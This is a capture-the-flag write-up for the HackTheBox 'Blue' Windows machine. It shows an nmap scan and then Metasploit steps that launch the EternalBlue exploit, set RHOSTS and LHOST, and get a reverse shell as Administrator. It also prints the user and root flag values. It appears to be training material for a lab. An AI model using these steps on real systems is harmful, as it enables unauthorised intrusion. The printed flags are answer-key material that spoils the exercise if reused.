




# HackTheBox **Blue**  
**Difficulty:** Easy  
**Platform:** Windows 

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```bash
nmap -sC -sV -oN outputNMAP.txt $IP 
```



The version of Windows used makes me think the target is vulnerable to EternalBlue. So let's open msfconsole and try it.

```bash
sudo msfconsole -q

search eternal
```



Let's set the RHOSTS and LHOST. Then run it.

```bash
set RHOSTS $targetIP

set LHOST $myIP

run
```



It worked and we got a reverse shell. Let's see what user are we.

```bash
getuid
```



We are Administrator, so no need to search for privilege escalation vectors.

Let's get the flags:

### User Flag: 95a96a75df4398d673fe46ab9f77924d (C:\Users\haris\Desktop)

### Root Flag: 379d5dc4fbc0b2da829b0dfe42666bcc (C:\Users\Administrator\Desktop)
